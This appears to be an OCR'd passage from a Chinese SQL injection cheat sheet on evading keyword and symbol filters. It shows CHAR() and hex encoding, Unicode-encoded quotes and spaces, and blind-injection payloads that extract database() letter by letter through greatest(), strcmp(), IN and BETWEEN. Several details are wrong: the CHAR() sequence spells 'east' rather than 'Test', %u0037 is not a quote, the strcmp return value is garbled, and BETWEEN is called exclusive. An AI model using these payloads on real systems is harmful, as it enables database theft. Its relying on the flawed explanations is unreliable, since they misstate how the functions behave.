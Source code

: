 #### **<font style="color:rgb(77, 77, 77);">ascii编码绕过</font>**
```sql
Test 等价于CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)
#利用函数CHAR()结合字母的ASCII码值拼接成被过滤的关键字
```

#### <font style="color:rgb(77, 77, 77);">16进制绕过：</font>
```sql
select * from users where username = test1;
select * from users where username = 0x7465737431;
#将test转化成16进制
```

#### <font style="color:rgb(77, 77, 77);">unicode编码对部分符号的绕过：</font>
```sql
单引号=> %u0037 %u02b9
空格=> %u0020 %uff00
左括号=> %u0028 %uff08
右括号=> %u0029 %uff09
```

### <font style="color:rgb(79, 79, 79);">6.<>大于小于号绕过</font>
<font style="color:rgb(77, 77, 77);">在sql盲注中，一般使用大小于号来判断ascii码值的大小来达到爆破的效果。</font>

#### <font style="color:rgb(77, 77, 77);">greatest()和least()</font>
<font style="color:rgb(77, 77, 77);">greatest(n1, n2, n3…):返回n中的最大值 或least(n1,n2,n3…):返回n中的最小值</font>

```sql
select * from cms_users where userid=1 and greatest(ascii(substr(database(),1,1)),1)=99;
```

#### <font style="color:rgb(77, 77, 77);">strcmp()</font>
<font style="color:rgb(77, 77, 77);">strcmp(str1,str2):</font>  
<font style="color:rgb(77, 77, 77);">若所有的字符串均相同，则返回STRCMP()，若根据当前分类次序，第一个参数小于第二个，则返回 -1，其它情况返回 </font><font style="color:rgb(77, 77, 77);">1</font>

```sql
select * from cms_users where userid=1 and strcmp(ascii(substr(database(),0,1)),99);
```

#### <font style="color:rgb(77, 77, 77);">in关键字</font>
```sql
select * from cms_users where userid=1 and substr(database(),1,1) in ('c');
```

#### <font style="color:rgb(77, 77, 77);">between a and b</font>
<font style="color:rgb(77, 77, 77);">between a and b:范围在a-b之间（不包含b）</font>

```sql
select * from cms_users where userid=1 and substr(database(),1,1) between 'a' and 'd';
```
